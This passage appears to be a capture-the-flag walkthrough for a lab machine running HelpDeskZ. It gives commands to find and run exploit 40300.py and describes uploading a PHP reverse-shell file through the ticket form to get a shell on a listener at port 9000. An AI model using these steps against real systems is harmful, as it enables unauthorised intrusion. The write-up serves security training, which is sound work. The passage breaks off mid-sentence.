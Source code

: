     searchsploit helpdeskz
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548551686619_image.png)


Download 40300.py locally and examine

    searchspoit -m exploits/php/webapps/40300.py
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548551991954_image.png)


from code review we can see that time.time() is called (highlighted)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552051980_image.png)



check time of webserver and verify against local

    whatweb -v http://10.10.10.121/support 
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548551921211_image.png)


check local time

    date

From browser navigate to “Submit a Ticket”

    http:/10.10.10.121/support
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552214788_image.png)


Continue with the submit a ticket and upload reverse tcp connection php file (1234.php) in this case.

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552400587_image.png)




![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552470781_image.png)


prompted with “File is not allowed” which is a false statement because file was uploaded successfully to the ticketing site.

Next to locate the location of the uploaded files we need a copy of the helpdeskz source which can be found:

    http://www.helpdeskz.com/download

after a local install of the software we can verify that the files will be uploaded to location:

    .../support/uploads/tickets/

Quickly after file is uploaded and prompted we want to execute the 40300.py exploit and after execution we want to keep an eye on our listener on port 9000.

    python 40300.py http://10.10.10.121/support/uploads/tickets/ 1234.php

#Two events might unfold
